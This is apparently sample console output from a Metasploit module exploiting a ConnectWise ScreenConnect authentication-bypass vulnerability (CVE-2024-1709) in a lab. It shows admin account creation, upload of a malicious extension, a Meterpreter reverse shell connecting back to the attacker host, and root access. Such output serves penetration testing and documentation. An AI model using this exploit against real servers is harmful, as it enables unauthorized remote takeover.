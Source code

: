```
[!] Did not locate the __VIEWSTATEGENERATOR.
[*] Created account: mvyzbmti:HhstWDEb59XYRfME (Note: This account will not be deleted by the module)
[!] Could not locate anti forgery token after login with admin credentials.
[*] Uploaded Extension: 347933e7-dbaf-1c86-eca1-2a873c31b04d
[*] Sending stage (3045380 bytes) to 192.168.86.72
[*] Removing Extension: 347933e7-dbaf-1c86-eca1-2a873c31b04d
[+] Deleted App_Extensions/pxstqhwe.ashx
[*] Meterpreter session 4 opened (192.168.86.42:4444 -> 192.168.86.72:36862) at 2024-02-22 14:47:33 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.72
OS           : Ubuntu 18.04 (Linux 5.4.0-84-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/opt/screenconnect
meterpreter > exit
[*] Shutting down session: 4

[*] 192.168.86.72 - Meterpreter session 4 closed.  Reason: User exit
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) >
```
